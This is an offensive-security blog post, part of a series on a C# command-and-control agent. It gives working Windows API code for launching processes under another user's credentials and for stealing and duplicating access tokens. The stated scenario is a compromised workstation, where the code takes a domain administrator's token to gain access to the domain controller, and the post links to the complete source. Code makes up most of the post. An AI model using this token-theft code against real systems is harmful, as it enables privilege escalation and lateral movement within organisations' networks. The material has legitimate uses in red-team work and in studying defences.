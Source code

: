```yaml
---
title: Fork and Run Implementation in C# - User impersonation & Token Manipulation
author: Fropops
date: 2023-06-13 08:10:00 +0800
categories: [Developpement]
tags: [C#, C2, Red Team, Fork and Run, Injection, WinAPI, Command Execution]
---
```


# Introduction

In the previous article ([Process Creation](/posts/Fork-and-Run-CSharp-Process-Creation/)) of this [Fork And Run](/posts/Fork-and-Run-CSharp-Intro/) series, we saw how to create a new process using the Windows API and how to retrieve its output stream.

Before moving on to the injection part, let's stay a little longer in the realm of process creation for the duration of this article. Indeed, there is another widely used feature in C2: the ability to launch a process with the rights of another user.

In this article, we will explore the two main techniques used for this purpose:<br/>
The first option, if we have the credentials of another user, is to create the process in the context of that user.<br/>
The second option, if we have sufficient privileges on the target computer, allows us to duplicate the rights of another process.<br/>


# User Impersonation

We can use the Windows API to create a process by using the login and password of a user. To do this, we simply need to use the function CreateProcessWithLogonW instead of CreateProcessW. This function is available in the advanced functions DLL (advapi32.dll).

We need to add its definition to our project in order to invoke it:
```c#
[DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithLogonW(
	string lpUsername,
	string lpDomain,
	string lpPassword,
	uint dwLogonFlags,
	string lpApplicationName,
	string lpCommandLine,
	uint dwCreationFlags,
	IntPtr lpEnvironment,
	string lpCurrentDirectory,
	[In] ref STARTUPINFOEX lpStartupInfo,
	out PROCESS_INFORMATION lpProcessInformation);
```

We also need to add the associated flag:
```c#
[Flags]
public enum LOGON_FLAGS : uint
{
	LogonWithProfile = 0x00000001,
	LogonNetCredentialsOnly = 0x00000002,
}
```

In order to make it work, we also need to remove the following line : 
```c#
creationFlags |= PROCESS_CREATION_FLAGS.EXTENDED_STARTUPINFO_PRESENT;
```

We can then call it with the appropriate parameters:

```c#
if (!CreateProcessWithLogonW(userName, domain, password, LOGON_FLAGS.LogonWithProfile, null, cmd, creationFlags, IntPtr.Zero, null, ref startupInfoEx, out pInfo))
    throw new InvalidOperationException($"Error in CreateProcessWithLogonW : {Marshal.GetLastWin32Error()}");
```

Here we go !

![Process Creation Impersonated Execution](/assets/img/posts/ForkAndRun/exec-creation-impersonated.png)

# Token manipulation

In Windows processes, a token refers to an object that represents the security context of a user or a system. It contains information about the user's identity, privileges, and group memberships, which are used to determine the access rights and permissions for the process.

When a user logs in to a Windows system, a token is created that contains their security credentials. This token is then associated with every process that the user starts or runs. The token carries information such as the user's security identifier (SID), user privileges, group SIDs, authentication information, and other relevant security data.

If we have sufficient privileges on a system, we have access to all user processes and their tokens! 

Let's imagine the following scenario: we have compromised a workstation and gained system access. By studying the current processes, we notice that the domain administrator is logged into this machine:

![Process List on workstation](/assets/img/posts/ForkAndRun/steal-token-processlist.png)

If we manage to steal the token from one of the Administrator's processes and inject it into a process that we create, we should obtain the access rights of the domain administrator! Once again, the Windows API provides us with everything we need for this manipulation.

There are 2 functions in the API that allow us to steal a token from an existing process and duplicate it:

 ```c#
[DllImport("advapi32.dll")]
public static extern bool OpenProcessToken(
	IntPtr ProcessHandle,
	DesiredAccess DesiredAccess,
	out IntPtr TokenHandle);

[DllImport("advapi32.dll")]
public extern static bool DuplicateTokenEx(
	IntPtr hExistingToken,
	TokenAccess dwDesiredAccess,
	ref SECURITY_ATTRIBUTES lpTokenAttributes,
	SecurityImpersonationLevel ImpersonationLevel,
	TokenType TokenType,
	out IntPtr phNewToken);
```

We need to declare associated structures:

```c#
public enum DesiredAccess : uint
{
	STANDARD_RIGHTS_REQUIRED = 0x000F0000,
	STANDARD_RIGHTS_READ = 0x00020000,
	TOKEN_ASSIGN_PRIMARY = 0x0001,
	TOKEN_DUPLICATE = 0x0002,
	TOKEN_IMPERSONATE = 0x0004,
	TOKEN_QUERY = 0x0008,
	TOKEN_QUERY_SOURCE = 0x0010,
	TOKEN_ADJUST_PRIVILEGES = 0x0020,
	TOKEN_ADJUST_GROUPS = 0x0040,
	TOKEN_ADJUST_DEFAULT = 0x0080,
	TOKEN_ADJUST_SESSIONID = 0x0100,
	TOKEN_READ = (STANDARD_RIGHTS_READ | TOKEN_QUERY),

	TOKEN_ALL_ACCESS = (STANDARD_RIGHTS_REQUIRED | TOKEN_ASSIGN_PRIMARY |
	TOKEN_DUPLICATE | TOKEN_IMPERSONATE | TOKEN_QUERY | TOKEN_QUERY_SOURCE |
	TOKEN_ADJUST_PRIVILEGES | TOKEN_ADJUST_GROUPS | TOKEN_ADJUST_DEFAULT |
	TOKEN_ADJUST_SESSIONID)
}

public enum TokenAccess : uint
{
	TOKEN_ASSIGN_PRIMARY = 0x0001,
	TOKEN_DUPLICATE = 0x0002,
	TOKEN_IMPERSONATE = 0x0004,
	TOKEN_QUERY = 0x0008,
	TOKEN_QUERY_SOURCE = 0x0010,
	TOKEN_ADJUST_PRIVILEGES = 0x0020,
	TOKEN_ADJUST_GROUPS = 0x0040,
	TOKEN_ADJUST_DEFAULT = 0x0080,
	TOKEN_ADJUST_SESSIONID = 0x0100,
	TOKEN_ALL_ACCESS_P = 0x000F00FF,
	TOKEN_ALL_ACCESS = 0x000F01FF,
	TOKEN_READ = 0x00020008,
	TOKEN_WRITE = 0x000200E0,
	TOKEN_EXECUTE = 0x00020000
}

public enum TokenType
{
	TOKEN_PRIMARY = 1,
	TOKEN_IMPERSONATION
}

public enum SecurityImpersonationLevel
{
	SECURITY_ANONYMOUS,
	SECURITY_IDENTIFICATION,
	SECURITY_IMPERSONATION,
	SECURITY_DELEGATION
}
```

We can now retrieve the token using the process ID:

```c#
var processSrc = Process.GetProcessById(processId);

//open handle to token
if (!OpenProcessToken(processSrc.Handle, DesiredAccess.TOKEN_ALL_ACCESS, out hToken))
	throw new InvalidOperationException($"Failed to open process token");


//duplicate  token
var sa = new SECURITY_ATTRIBUTES();
if (!DuplicateTokenEx(hToken, TokenAccess.TOKEN_ALL_ACCESS, ref sa, SecurityImpersonationLevel.SECURITY_IMPERSONATION, TokenType.TOKEN_IMPERSONATION, out hTokenDup))
{
	CloseHandle(hToken);
	throw new InvalidOperationException($"Failed to duplicate token");
}
```

All that's left is to create a process by injecting the retrieved token. For this, we will use the CreateProcessWithTokenW function:

```c#
[DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Unicode)]
public static extern bool CreateProcessWithTokenW(
   IntPtr hToken,
   uint dwLogonFlags,
   string lpApplicationName,
   string lpCommandLine,
   uint dwCreationFlags,
   IntPtr lpEnvironment,
   string lpCurrentDirectory,
   [In] ref STARTUPINFOEX lpStartupInfo,
   out PROCESS_INFORMATION lpProcessInformation);
```

We replace the call to the CreateProcessW function with:

```c#
if (!CreateProcessWithTokenW(hTokenDup, (uint)LOGON_FlAGS.LogonWithProfile, null, cmd, (uint)creationFlags, IntPtr.Zero, null, ref startupInfoEx, out pInfo))
	throw new InvalidOperationException($"Error in CreateProcessWithTokenW : {Marshal.GetLastWin32Error()}");
```

And here is the result:

![Simple Process Execution - Steal Token](/assets/img/posts/ForkAndRun/steal-token-exec.png)

# What does it look like in our C2?

When integrated in the agent and running on the workstation as local Administrator, we try to enumerate the content of the C drive on the Domain Controller :

![Token STealing Execution in C2 - Standard user](/assets/img/posts/ForkAndRun/exec-steal-token-c2-before.png)

Let's find a process running as Domain Administrator :

![Token STealing Execution in C2 - Processes](/assets/img/posts/ForkAndRun/exec-steal-token-c2-ps.png)

Here we go !

![Token STealing Execution in C2 - Domain Admin](/assets/img/posts/ForkAndRun/exec-steal-token-c2-after.png)


# Final Thoughts

This article demonstrates how to create a new process in C# using the Windows API and impersonate or steal the rights of another user.

You can find the complete source code of this article on [Github](https://github.com/Fropops/OffensiveWinAPI/blob/main/TestForBlog/StealToken.cs)